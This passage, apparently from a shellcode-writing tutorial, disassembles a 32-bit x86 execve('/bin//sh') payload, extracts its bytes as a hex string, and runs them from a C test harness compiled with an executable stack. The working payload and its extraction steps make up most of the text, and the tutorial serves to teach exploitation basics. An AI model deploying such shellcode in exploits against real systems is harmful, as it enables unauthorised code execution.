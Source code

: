 ```
$ objdump -dM intel shell32

shell32_usable:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	6a 00                	push   0x0
 8049002:	68 2f 2f 73 68       	push   0x68732f2f
 8049007:	68 2f 62 69 6e       	push   0x6e69622f
 804900c:	b8 0b 00 00 00       	mov    eax,0xb
 8049011:	89 e3                	mov    ebx,esp
 8049013:	b9 00 00 00 00       	mov    ecx,0x0
 8049018:	ba 00 00 00 00       	mov    edx,0x0
 804901d:	cd 80                	int    0x80
```

Great, We can see the values for our string being stored directly (first three
instructions). We _should_ be able to run this as shellcode, let's give it a
try, firstly extract just the hex:

```
$ objdump -d shell32 | \
    awk -F'\t' '{print $2}' | \
    tr -d '\n' | \
    sed \
        -e 's/[^ ]\{2\}/\\x&/g' \
        -e 's/ \+//g' \
        -e 's/$/\n/'
\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80
```

Let's write a program to verify our shell code:


```c
// test.c
const char code[] = "\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b"
                    "\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00"
                    "\x00\xcd\x80";

int main()
{
    ((void (*)())(code))();
     return 0;
}
```

**Note:** you may need to install a `gcc-multilib` package to be able to compile
32 bit binaries on a 64 bit machine, e.g. for Debian 10: `gcc-8-multilib`

```
$ gcc -z execstack -o test -m32 test.c
```

